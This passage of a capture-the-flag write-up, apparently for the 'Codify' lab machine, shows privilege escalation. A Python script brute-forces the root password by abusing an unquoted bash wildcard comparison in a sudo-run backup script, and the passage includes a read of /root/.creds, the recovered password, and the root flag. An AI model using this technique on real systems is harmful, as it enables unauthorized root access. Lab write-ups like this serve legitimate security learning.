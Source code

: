 > cat /usr/bin/cat /root/.creds

![image](https://hackmd.io/_uploads/SJ8Idl9Na.png)

```sh=19
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
```
mysql-backup.sh 可以看出DB_PASS與USER_PASS沒有經過處理。
有機會透過星號(*) 猜出root密碼。
### 8. Iteration brute-force passwd
Codify.py
```python=
import string
import subprocess
all = list(string.ascii_letters + string.digits)
# 建立all 帶有所有字母和數字的列表。
password = ""
found = False

while not found:
    for character in all:
    #迭代所有可能的字母和數字。
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        #以shell Command: sudo /opt/scripts/mysql-backup.sh測試密碼
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            #將當前字串添加到密碼中 (包括 passw*)
            password += character
            print(password)
            break
    else:
        found = True
```
>python3 codify.py

![image](https://hackmd.io/_uploads/Ski1XUjEp.png)
> kljh12k3jhaskjh12kjh3

### 9. Get Root Flag
> joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# ls
codify.py  script.py  user.txt
root@codify:/home/joshua# cd ..
root@codify:/home# whoami
root

![image](https://hackmd.io/_uploads/ryiBXIi4a.png)
> root@codify:/home# cd
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
60c48b069dd807a84cb550d574d2a885

![image](https://hackmd.io/_uploads/ByW2QIsV6.png)
> **FLAG: 60c48b069dd807a84cb550d574d2a885**

###### tags: `CTF` `Web` `nmap` `dirsearch` `ncat` `Reverse shell` `John-the-Ripper` `Privilege Escalation` `bcrypt`